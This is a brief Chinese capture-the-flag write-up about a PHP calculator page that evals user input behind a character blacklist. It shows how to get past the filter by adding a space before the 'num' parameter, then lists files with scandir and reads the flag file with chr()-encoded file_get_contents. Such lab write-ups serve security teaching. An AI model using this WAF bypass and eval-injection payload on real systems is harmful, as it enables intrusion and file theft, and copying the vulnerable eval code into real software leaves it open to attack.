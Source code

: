  https://blog.csdn.net/rfrder/article/details/109172067



calc.php

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?>

```

利用PHP的[字符串](https://so.csdn.net/so/search?q=字符串&spm=1001.2101.3001.7020)解析特性来绕过WAF，在num前面加上空格



chr

```
返回ascii对应的字符
```



file_get_contents

```

```





scandir

```
列出文件和目录
```



看到f1agg文件

```
? num=file_get_contents(chr(102).chr(49).chr(97).chr(103).chr(103))
```

得到flag
